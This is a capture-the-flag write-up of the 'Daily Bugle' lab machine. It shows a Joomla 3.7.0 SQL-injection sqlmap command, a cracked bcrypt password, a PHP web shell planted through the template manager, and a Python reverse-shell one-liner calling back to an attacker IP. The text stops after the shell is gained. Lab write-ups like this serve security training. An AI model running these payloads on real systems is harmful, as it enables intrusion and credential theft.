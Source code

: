# The Daily Bugle

## recon

`nmap -p- -sV` revealed:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 06:44 UTC
Nmap scan report for ip-10-10-213-186.eu-west-1.compute.internal (10.10.213.186)
Host is up (0.00076s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)
MAC Address: 02:13:6B:1F:86:78 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds
```

So ssh, a web server and mysql/mariadb. A quick check showed that default creds don't work with the remote db, and/or random hosts are not allowed to read it.

The homepage of the webserver showed a Joomla site. Running joomscan against it (had to install it on kali) revealed the version as `3.7.0`.

## sqlmap

I did a quick search and found an exploit-db entry: https://www.exploit-db.com/exploits/42033

From this I ran the suggested sql map command to test it, and it worked. Given that the above exploit has the working tests for the blind sql injection, I specified one of those and quickly dumped the user table:

`
sqlmap -u "http://10.10.69.3/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --test-filter="MySQL >= 5.0 error-based - Parameter replace (FLOOR)" --random-agent --dump -p list[fullordering]
`

This gave me the hash for 'jonah': `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`. A standard bcrypt hash. Using hashcat on my windows machine (where my NVidia 2080 lives), I cracked this via `.\hashcat64.exe -m 3200 ..\hash.txt ..\rockyou.txt` (3200 for a bcrypt hash, as indicated by the `$2y`). The password was `spiderman123` :)

## a shell through joomla and escalation

The credentials didn't work for mysql or ssh, but they did log me into Joomla. Once in, I went to the template manager and used it to stick a php shell directly into the index page, placing it just below the heading. Nice.

With this I dropped my handy python reverse shell one liner (below), and got a shell as `apache` on the system:

Python one liner: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.105.239",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

